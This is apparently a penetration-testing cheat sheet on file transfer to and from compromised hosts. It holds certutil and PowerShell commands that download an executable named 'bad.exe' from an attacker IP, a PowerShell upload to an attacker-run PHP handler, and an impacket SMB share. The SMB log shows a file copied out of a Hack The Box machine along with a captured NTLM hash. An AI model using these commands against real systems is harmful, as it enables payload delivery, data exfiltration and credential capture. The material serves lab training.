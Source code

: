 - [Windows File Transfer](#windows-file-transfer)
	- [Certutil](#certutil)
	- [PowerShell](#powershell)
- [Linux File Transfer](#linux-file-transfer)
	- [impacket-smbserver](#impacket-smbserver)
	- [HTTP](#http)
	- [FTP](#ftp)
		- [pyftpdlib](#pyftpdlib)
- [SSH/SCP](#sshscp)


# [Windows File Transfer](#windows-file-transfer-1)
## [Certutil](#certutil-1)
### [Downloading Files with Certutil](https://www.ired.team/offensive-security/defense-evasion/downloading-file-with-certutil)
```sh
certutil.exe -urlcache -f http://10.1.1.1/40564.exe bad.exe
certutil -urlcache -f http://10.1.1.1/40564.exe bad.exe

$t = '10.1.1.1'
certutil -urlcache -f http://$t/40564.exe bad.exe
```
(New-Object Net.WebClient).DownloadFile('http://$t/taskkill.exe','C:\Windows\Temp\taskkill.exe')

## [PowerShell](#powershell-1)
https://gitbook.brainyou.stream/post-exploitation/file-transfer
```sh
powershell (New-Object System.Net.WebClient).UploadFile('http://x.x.x.x/upload.php', '<some_file>')
```

PHP Handler
On Kali, we can make a upload.php:
```php
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name']
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

Put the script into /var/www/html. Then do:
```sh
mkdir /var/www/uploads
systemctl start apache
chown www-data: /var/www/uploads
```

# Linux File Transfer
## impacket-smbserver
### [SMB](https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65)
### On Server Side (Kali)
```sh
smbserver.py share . -smb2support
smbserver.py share . -smb2support -username root -password toor
impacket-smbserver share . -smb2support -username root -password toor
impacket-smbserver share . -smb2support -username root -password toor -ip 10.1.1.1
```

```sh
$ impacket-smbserver share .
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```

### On Client Side
```sh
C:\Users\bitbucket\Downloads>net use \\10.1.1.1\share
Enter the user name for '10.1.1.1': root
Enter the password for 10.1.1.1: toor
The command completed successfully.
```

```sh
tom@REEL C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors>copy acls.csv \\10.1.1.1\share
        1 file(s) copied.
```

### On Server Side (Kali), received the file
```sh
[*] Incoming connection (10.10.10.77,52853)
[*] AUTHENTICATE_MESSAGE (HTB\tom,REEL)
[*] User REEL\tom authenticated successfully
[*] tom::HTB:aaaaaaaaaaaaaaaa:ce35716473cdd23a96f36ceb04c047b7:01010000000000008001dda490e0d90110624f8984ad10560000000001001000410070004900720061006c006700690003001000410070004900720061006c00670069000200100044005400690049006800610071006f000400100044005400690049006800610071006f00070008008001dda490e0d90106000400020000000800300030000000000000000000000000300000af600118190f818eb191529b8de7b91c47aaab8e73855d44e95d1b6e27fd549f0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e003900000000000000000000000000
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:SHARE)
[*] Closing down connection (10.10.10.77,52853)
[*] Remaining connections []

Ctrl + C

$ ls -lh acls.csv                         
-rwxr-xr-x 1 kali kali 110K Jan  1  1970 acls.csv
```

## [HTTP](#http-1)
```sh
python -m http.server
python -m http.server 80
python -m http.server 80 -b 10.1.1.10
```

## [FTP](#ftp-1)
### [pyftpdlib](#pyftpdlib-1)
```sh
pip install pyftpdlib
python -m pyftpdlib -p 21
```

### On Client Side
Use explorer, browser, or cmd
```sh
PS C:\> ftp 10.1.1.1
Connected to 10.1.1.1.
220 pyftpdlib 1.5.9 ready.
530 Log in with USER and PASS first.
User (10.1.1.1:(none)): anonymous
331 Username ok, send password.
Password:
230 Login successful.
ftp> ls
```

# SSH/SCP
### 
```sh
$ ssh -i alice.pem alice1978@$t ls
lin.txt

$ scp -i alice.pem alice1978@$t:~/lin.txt .
lin.txt          100%   59KB 429.8KB/s   00:00
```

### 
```sh

```

### 
```sh

```